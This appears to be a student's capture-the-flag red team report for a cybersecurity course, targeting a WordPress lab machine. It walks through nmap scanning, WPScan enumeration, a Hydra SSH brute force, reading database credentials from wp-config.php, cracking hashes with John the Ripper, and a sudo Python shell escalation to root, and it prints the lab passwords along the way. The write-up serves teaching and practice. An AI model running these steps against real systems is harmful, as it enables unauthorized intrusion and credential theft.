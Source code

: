 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -A 192.168.1.0/24
  - ![alt text] (https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/025ff3ea5bce6ebc05f03ac40339df8e13f8ed29/Images/Offense%20Images/nmapscanfortarget1.png)
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - No file security permission implemented
  - Use of weak password salted hashes
  - Python root escalation privileges

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan to enumerate users of the Target 1 WordPress site
        - wpscan --url http://192.168.1.110 --enumerate u
        - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8655bc671393f7d27d9d25ac768909c31c3b8594/Images/Offense%20Images/wpscanusers.png)
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael
        - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/hydrabruteforcemichael.png)
    - Capturing Flag 1: After SSH Brute Force Attack as Michael I traversed through directories and files.
      - Found Flag1 in  var/www/html folder at root in service.html in a HTML comment below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/sshmichaelpassword.png)
        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag2hash.png)
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag2.png)
  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database
        - the wp-config.php displayed DB_Password in plaintext
        - Insert Picture
        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;
   - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/mysqlconnect.png)
   - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/sqlshowdatabases.png)
   - ![alt text] 
  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by retrieving user credentials from database, executed john the ripper to crack password hash and use Python Escalation Privileges to gain root access
        - Previously gained access to the database credentials as Michael from the sp-config.phpfile, cracking password hashes gathered from MySQL was the next step.
        - These user credentials are stored in the wp_users table of the wordpress database.
        - The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;
    - Insert picture
        - When I exported the hashes, I saved them individually as stevenhash.txt and michaelhash.txt and ran them against John the Ripper to crack the hashes.
          - Command:
            - john stevenhash.txt
            - Insert Picture
            - john michaelhash.txt; the execution of performing the john the ripper kept on going; but we already had the password from the previous activity.
          - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
    - Insert Picture

